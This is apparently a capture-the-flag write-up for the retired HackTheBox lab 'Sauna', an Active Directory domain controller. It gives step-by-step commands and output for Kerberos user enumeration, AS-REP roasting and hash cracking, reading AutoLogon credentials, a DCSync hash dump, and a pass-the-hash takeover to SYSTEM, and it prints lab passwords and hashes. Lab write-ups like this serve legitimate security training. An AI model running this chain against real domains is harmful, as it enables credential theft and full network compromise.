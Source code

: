 # Sauna

This is the write-up for the box Sauna that got retired at the 18th July 2020.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.175    sauna.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/sauna.nmap 10.10.10.175
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-10 17:09:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
```

According to the open ports, this box is an **Active Directory Domain Controller**.

## Checking HTTP (Port 80)

The web page is a custom developed homepage of a fictional bank.
All pages are static HTML files, but there are some potential usernames on the _/about.html_ site:
- Fergus Smith
- Shaun Coins
- Hugo Bear
- Bowie Taylor
- Sophie Driver
- Steven Kerb

General username formats on Windows are as follows:
- _firstname.lastname_
- _f.lastname_
- _firstnamelastname_
- _flastname_

Example:
- _fergus.smith_
- _f.smith_
- _fergussmith_
- _fsmith_

So all 6 usernames have 4 different formats and these 32 usernames have to be validated.

## Checking SMB (Port 445)

The SMB port provides information about the hostname and domain name:
```
crackmapexec smb 10.10.10.175
```
```
SMB    10.10.10.175    445    SAUNA    [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```

- Hostname: SAUNA
- Domain Name: EGOTISTICAL-BANK.LOCAL

Let put the domain name into our _/etc/hosts_ file.
```
10.10.10.175    EGOTISTICAL-BANK.LOCAL sauna.EGOTISTICAL-BANK.LOCAL
```

## Checking Kerberos (Port 88)

By doing a **Kerberos Pre-Authentication attack**, we can try to validate usernames against the domain.
When trying to authenticate to a domain via Kerberos and have a valid username, it will use Pre-Authentication and that is how this method works.

The tool [Kerbrute](https://github.com/ropnop/kerbrute) will help to accomplish this:
```
./kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL saune_users.txt
```
```
2021/07/10 13:20:57 >  Using KDC(s):
2021/07/10 13:20:57 >  10.10.10.175:88

2021/07/10 13:20:57 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2021/07/10 13:20:57 >  Done! Tested 24 usernames (1 valid) in 0.156 seconds
```

It found one valid username _fsmith_.
The tool **Get-NPUsers** from the **Impacket Framework** can query for users with _"Do not require Kerberos preauthentication"_ set and export their TGTs for cracking:
```
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/fsmith -no-pass
```
```
[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b8111de79588a5cd79151f8b7249431c$558519(...)
```

Cracking the TGT with **Hashcat**:
```
hashcat -m 18200 sauna_fsmith.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password of the user _fsmith_ is:
> Thestrokes23

Luckily the user has enough privileges to authenticate to the **WinRM** service:
```
crackmapexec winrm 10.10.10.175 -u fsmith -p Thestrokes23

WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```

Connecting to the box with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):
```
/opt/shells/evil-winrm/evil-winrm.rb -i 10.10.10.175 -u fsmith -p Thestrokes23
```

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration script**:
```
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
```
```
.\winPEAS.exe
```

There are **AutoLogon credentials** stored on the box for the user _svc_loanmanager_:
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
```
DefaultUserName: EGOTISTICAL.LOCAL\svc_loanmanager
DefaultPassword: Moneymakestheworldgoround!
```

The username on the box is _svc_loanmgr_, so maybe this user has the same password:
```
net users /domain

svc_loanmgr
```

As this is a domain controller, the tool **BloodHound** should be run:
```
Evil-WinRM PS C:\Users\FSmith\Documents> upload SharpHound.exe

Evil-WinRM PS C:\Users\FSmith\Documents> ./SharpHound.exe

Evil-WinRM PS C:\Users\FSmith\Documents> download 20210710134006_BloodHound.zip
```

After analyzing the output, it looks like that the user _svc_loanmgr_ has the _DS-Replication-Get-Changes-All_ privilege on the domain.

![Control Rights of svc_loanmgr](sauna_bh-1.png)

In conjunction with the _DS-Replication-Get-Changes_ privilege, it is possible to perform a **DCSync attack** to get the password hashes of all domain users.

The tool **secretsdump** from the **Impacket Framework** can use this method to dump the hashes:
```
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
(...)
```

The hash of the _Administrator_ can now be used for a **Pass-The-Hash attack**:
```
crackmapexec winrm 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff

WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\administrator:d9485863c1e9e05851aa40cbb4ab9dff (Pwn3d!)
```

Using **Impacket-PsExec** with the hash of _Administrator_:
```
impacket-psexec EGOTISTICAL-BANK.LOCAL/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
```

It logs us in as _NT Authority\SYSTEM_!
